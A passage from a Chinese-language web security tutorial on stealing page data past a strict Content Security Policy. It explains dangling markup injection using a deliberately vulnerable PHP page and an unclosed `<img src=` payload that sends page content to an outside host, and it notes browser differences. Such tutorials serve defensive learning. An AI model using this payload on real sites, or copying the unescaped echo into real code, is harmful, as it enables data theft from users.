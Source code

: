 只要按下框框中的按鈕，就會自動送出含有帳號密碼的表單，也就是說，只要使用者點了看起來很正常的 icon，帳號就會被盜！

其他細節都在原始文章：[Stealing passwords from infosec Mastodon - without bypassing CSP](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp)

## Dangling Markup injection

除了上面提到的這些，還有另一種攻擊方式叫做 dangling markup，直接看個範例比較好懂：

``` php
<!DOCTYPE html>
<html lang="en">
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src 'none'; style-src 'none'; form-action 'none'; frame-src 'none';">

</head>
<body>
  <div>
  Hello, <?php echo $_GET['q']; ?>
  <div>
    Your account balance is: 1337
  </div>
  <footer><img src="footer.png"></footer>
</div>
</body>
</html>
```

在這個案例中，我們可以藉由 query string 在頁面上植入 HTML，但問題是 CSP 是相當嚴格的，不能用 JavaScript，連 CSS 跟 iframe 也都不行，這時候用什麼方式可以偷到頁面上的資料呢？

我們可以傳入：`<img src="http://example.com?q=`，重點是這個 `<img>` 標籤沒有閉合，屬性也沒有用雙引號包起來，結合原本的 HTML 之後就會變成：

``` html
<div>
  Hello, <img src="http://example.com?q=
  <div>
    Your account balance is: 1337
  </div>
  <footer><img src="footer.png"></footer>
</div>
</body>
</html>
```

原本頁面上的文字 `<div>Your account balance...` 變成了 `src` 的一部分，一直到碰到另外一個 `"` 才會閉合屬性，再碰到 `>` 才會閉合標籤。換句話說，透過一個故意沒有關閉的標籤，我們成功讓頁面的內容變成了網址的一部分，傳到我們的伺服器去，而這種攻擊方式就叫做 dangling markup injection。

這種攻擊的使用時機就是 CSP 很嚴格而你又想偷取頁面上的資料的時候，就可以試試看這種攻擊手法。但要注意的是 Chrome 有內建[防禦機制](https://chromestatus.com/feature/5735596811091968)，只要是 src 或是 href 裡面有 `<` 或是換行，就不會載入網址。

因此如果拿上面的 HTML 去 Chrome 跑，會看到請求被 block 了。不過 Firefox 目前就沒有相關的機制，會很開心地幫你送出請求。

但如果你的注入點剛好是在 `<head>` 裡面，也可以用 `<link>` 繞過 Chrome 的限制：
